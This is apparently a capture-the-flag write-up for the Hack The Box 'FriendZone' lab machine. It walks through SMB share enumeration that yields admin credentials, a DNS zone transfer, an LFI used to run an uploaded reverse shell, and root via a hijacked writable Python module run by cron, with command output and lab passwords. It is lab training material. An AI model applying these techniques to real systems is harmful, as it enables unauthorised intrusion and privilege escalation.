 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: FriendZone
- Description: FriendZone is an easy difficulty Linux box which needs fair amount enumeration. By doing a zone transfer vhosts are discovered. There are open shares on samba which provides credentials for an admin panel. From there, an LFI is found which is leveraged to get RCE. A cron is found running which uses a writable module, making it vulnerable to hijacking.
- Difficulty: Easy

## Initial Access

Nmap:
```bash
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                 
|   2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
|   256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
|_  256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid:         
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:      
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Friend Zone Escape software 
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Issuer: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Public Key type: rsa 
| Public Key bits: 2048              
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-10-05T21:02:30                                                                                                                        
| Not valid after:  2018-11-04T21:02:30                     
| MD5:   c144:1868:5e8b:468d:fc7d:888b:1123:781c                    
|_SHA-1: 88d2:e8ee:1c2c:dbd3:ea55:2e5e:cdd4:e94c:4c8b:9233
|_http-title: 404 Not Found
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
| tls-alpn: 
|_  http/1.1
445/tcp open  EDtb
                         Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Port 21 

This is FTP I try logging in with anonymous login but it does not work.

### Port 445

This is Samba, I try to enumerate with smbclient and I can see a few shares. I keep this in mind as I also know we have a webpage on 80 and 443

```bash
HTB smbclient -L //10.10.10.123/
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        Files           Disk      FriendZone Samba Server Files /etc/Files
        general         Disk      FriendZone Samba Server Files
        Development     Disk      FriendZone Samba Server Files
        IPC$            IPC       IPC Service (FriendZone server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            FRIENDZONE
```

Here we can see Files, general, Development are available on the smb server. Attempting to access Files doesn't let me access it, but accessing Development and general works:

```bash
HTB smbclient  //10.10.10.123/general
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 16 15:10:51 2019
  ..                                  D        0  Tue Sep 13 10:56:24 2022
  creds.txt                           N       57  Tue Oct  9 19:52:42 2018

                3545824 blocks of size 1024. 1650272 blocks available
smb: \> get creds.txt
getting file \creds.txt of size 57 as creds.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> exit
➜  HTB smbclient  //10.10.10.123/Development
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 16 15:03:49 2019
  ..                                  D        0  Tue Sep 13 10:56:24 2022

                3545824 blocks of size 1024. 1650272 blocks available
smb: \> exit
```

Reading contents of creds.txt:
```bash
HTB cat creds.txt 
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

```bash
dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -e php,txt,html -f -u  http://10.10.10.123

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, txt, html | HTTP method: GET | Threads: 64 | Wordlist size: 1102725

Output File: /home/kali/.dirsearch/reports/10.10.10.123/_24-01-22_14-34-47.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-01-22_14-34-47.log

Target: http://10.10.10.123/

[14:34:47] Starting: 
[14:34:48] 200 -  324B  - /index.html
[14:34:50] 403 -  293B  - /icons/                                          
[14:34:57] 200 -  747B  - /wordpress/                                      
[14:34:57] 301 -  316B  - /wordpress  ->  http://10.10.10.123/wordpress/
```

This leads me to a wordpress instance which is a deadend as its fake...
I look at the main page and it mentions this hostname: friendzoneportal.red, so I'll go ahead and dirsearch that after I add it to my `/etc/hosts` file.
### Port 53 DNS

I wanted to check if I can zone transfer to quickly find some subdomains on the domain:

```bash
$ dig axfr friendzoneportal.red @10.10.10.123

; <<>> DiG 9.19.17-1-Debian <<>> axfr friendzoneportal.red @10.10.10.123
;; global options: +cmd
friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzoneportal.red.   604800  IN      AAAA    ::1
friendzoneportal.red.   604800  IN      NS      localhost.
friendzoneportal.red.   604800  IN      A       127.0.0.1
admin.friendzoneportal.red. 604800 IN   A       127.0.0.1
files.friendzoneportal.red. 604800 IN   A       127.0.0.1
imports.friendzoneportal.red. 604800 IN A       127.0.0.1
vpn.friendzoneportal.red. 604800 IN     A       127.0.0.1
friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 91 msec
;; SERVER: 10.10.10.123#53(10.10.10.123) (TCP)
;; WHEN: Mon Jan 22 14:43:22 EST 2024
;; XFR size: 9 records (messages 1, bytes 309)

```

Adding this output to my `/etc/hosts` file and I find a login page on the admin.friendzoneportal.red domain:

![](assets/images/2024-01-21-HTB-friendzone-writeup-image-1.png)

Putting in any credentials yeilds the same output of:

```
Admin page is not developed yet !!! check for another one
```

this is annoying, time to enumerate some more.

Looking at the certificate I can see that there is another domain:
![](assets/images/2024-01-21-HTB-friendzone-writeup-image-2.png)

friendzone.red

let me do the same process to this domain

![](assets/images/2024-01-21-HTB-friendzone-writeup-image-3.png)

More results, let's add em and enumerate:
![](assets/images/2024-01-21-HTB-friendzone-writeup-image-4.png)

I login to the application:

![](assets/images/2024-01-21-HTB-friendzone-writeup-image-5.png)

![](assets/images/2024-01-21-HTB-friendzone-writeup-image-6.png)

I can add an image name at the end of the image_id param:

![](assets/images/2024-01-21-HTB-friendzone-writeup-image-7.png)

I upload a rev in Development drive, and iirc the smb shares are all in /etc as stated when I listed them. 

Accessing that page gives me a reverse shell.
## Privilege Escalation

Checking mysql_data.conf file leads to some creds:

```bash
www-data@FriendZone:/var/www$ cat mysql_data.conf 
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```

I can su into the user friend:
```bash
www-data@FriendZone:/home$ su friend
Password: 
friend@FriendZone:/home$
```

Upon some more enum I see this in pspy64:

```bash
2024/01/22 22:24:01 CMD: UID=0     PID=3183   | /usr/bin/python /opt/server_admin/reporter.py 
2024/01/22 22:24:01 CMD: UID=0     PID=3182   | /bin/sh -c /opt/server_admin/reporter.py 
2024/01/22 22:24:01 CMD: UID=0     PID=3181   | /usr/sbin/CRON -f
```

python script in opt runs every minute with python.

it imports os, so we can check if we can edit os, sure enough we can:

![](assets/images/2024-01-21-HTB-friendzone-writeup-image-8.png)

![](assets/images/2024-01-21-HTB-friendzone-writeup-image-9.png)

I added this line at the end that essentially adds the suid bit to /bin/bash

```bash
friend@FriendZone:/tmp$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Apr  4  2018 /bin/bash
friend@FriendZone:/tmp$ bash -p
bash-4.4# cat /root/root.txt 
179ebb93129e7dccc6dd29580992c57a
bash-4.4#
```

best,
gerbsec
